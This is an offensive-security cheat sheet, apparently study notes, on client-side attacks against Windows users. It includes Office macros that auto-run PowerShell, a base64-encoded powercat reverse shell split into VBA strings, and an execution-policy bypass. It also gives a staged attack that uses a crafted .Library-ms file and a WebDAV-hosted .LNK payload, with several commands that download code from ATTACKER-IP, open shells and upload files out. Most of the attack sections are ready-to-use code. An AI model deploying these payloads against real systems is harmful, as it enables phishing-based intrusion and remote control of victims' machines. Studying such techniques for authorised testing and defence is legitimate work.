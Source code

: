 # Client side attacks

## About

Client-side attacks often exploit weaknesses or functions in local software and applications such as browsers, operating system components, or office programs.

Client-side attacks often use specific delivery mechanisms and payload combinations, including email attachments or links to malicious websites or files.

lient-side attacks often must deliver payload to a target on a non-routable internal network, since client systems are rarely exposed externally.

[Windows default libraries in User folder](https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries#default-libraries-and-known-folders)


## Offline Metadata Recon

* Read meta data of file with `exiftool`
* -a allow duplicates
* -u unknown file tags

```bash
# Find, Downlaod and read Metadata
gobuster dir -u http://target.com/ -x pdf -w /usr/share/wordlists/dirb/common.txt
curl -O http://target.com/some.pdf
exexiftool -a -u some.pdf
```

## Fingerprint Offline Machines

* Let's send an cannary token link to the target
* Provide information about the browser, IP and more
* Navigate to `https://canarytokens.com`
* Select `Web Bug / URL token`
* Provide email and name
* Copy link and send to target

More tools:

* [FingerprintJS](https://github.com/fingerprintjs/fingerprintjs/tree/master?tab=readme-ov-file)
* [Grabify IP Logger](https://grabify.link/)
* [What is my Browser](https://explore.whatismybrowser.com/useragents/parse/)
* [Harvester requires API keys](https://github.com/laramies/theHarvester)
* [DNS Search](https://searchdns.netcraft.com/)

## Office Word Macros

* Open Word file
* Save File as ".doc" (2000)
* Add macros and select the .doc file

Test

```vb
Sub AutoOpen()
  MyMacro
End Sub

Sub Document_Open()
  MyMacro  
End Sub

Sub MyMacro()
  CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

Reverse Shell with Powercat

* prepare download `cat powercat.ps1; python3 -m http.server 80`
* prepare listener `nc -nvlp 4444`
* prepare download macro using pyhton and VBA
  * prepare powercat reverse shell
  * encode utf-8 and base64
  * split the base64 string

```powershell
$Shell= "IEX (New-Object System.Net.WebClient).DownloadString('http://ATTACKER-IP/powercat.ps1');powercat -c ATTACKER-IP -p 4444 -ep"
$Base64Shell = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))
python3 ./tools/split-vb-pwsh-command.py $Base64Shell
```

```python
#!/usr/bin/python3
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
    print("Str = Str + " + '"' + str[i:i+n] + '"')
```

```vb
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A=="

CreateObject("Wscript.Shell").Run Str
End Sub
```

Allow Powershell Execution

```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force;
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted -Force;
```

## Windows Libraries

* File Extension `.Library-ms`
* Default location for Library description file `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Libraries`
* [Folder Redirection](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh848267(v=ws.11))

Staged-Attack:

* Foothold - Create a Windows library `config.Library-ms` for our victim
* Victim receives a .Library-ms file, double-click looks like folder structure
* Attack - Create a .LNK file served by WebDAV server that executes a Reverse Shell
* Victim execution the .LNK file

Setup WebDAV server to host .LNK files (via Windows Library)

* --host listener IP
* --port listener Port
* --auth anoymous
* --root server folder

```bash
sudo apt install python3-wsgidav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

1st Stage - Create a Windows library `config.Library-ms`

* [Format Definition](https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry)
* [Folder Types](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-foldertype)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<!-- We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. Choose the latter because shell32.dll looks to suspecious-->
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<!-- Navigation bar and Icon. We can use imagesres.dll to choose between all Windows icons.  
<iconReference>imageres.dll,-1002</iconReference> Documents folder icon.
<iconReference>imageres.dll,-1003</iconReference> Pictures folder icon. 
-->
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<!-- Document Folder Type
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType> Documents or
<folderType>{B3690E58-E961-423B-B687-386EBFD83239}</folderType> Pictures
-->
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<!--
Attention: 
The URL is important part and it must be set once per execution.
After execution the file gets manipulated by Windows.
-->
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://ATTACKER-IP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>

</libraryDescription>
```

2nd Stage - Create a .LNK file served by WebDAV server

* Create a shortcut with a Path
* Add Powercat Reverse Shell as Payload
* 

```
powershell.exe -c "IEX (New-Object System.Net.WebClient).DownloadString('http://Attacker-IP:8000/powercat.ps1');powercat -c Attacker-IP -p 4444 -ep"
```

Upload Windows Library Delivery via SMB

* Upload  library via `smbclient` to a public share
* Another way is an E-Mail attachment
* Both methods will require a pretext

```bash
smbclient //TARGET-IP/share -c 'put config.Library-ms'
```

Upload Windows Library Delivery via WebDav

* Use Windows Built-In `net use`
* Connect to a WebDAV share

```powershell
# Windows
net use w: http://ATTACKER-IP/
copy uploadfile w:\
net use w: /delete
```

Upload Windows library via powershell

* Precondition: HTTP webserver single file uploads
* kali-install-tool.md -> Install HTTP Upload Server -> Patch

```powershell
$response=(New-Object Net.WebClient).UploadFile('http://Attacker-IP/upload', '.\Desktop\uploadfile'); [Text.Encoding]::UTF8.GetString($response)
```
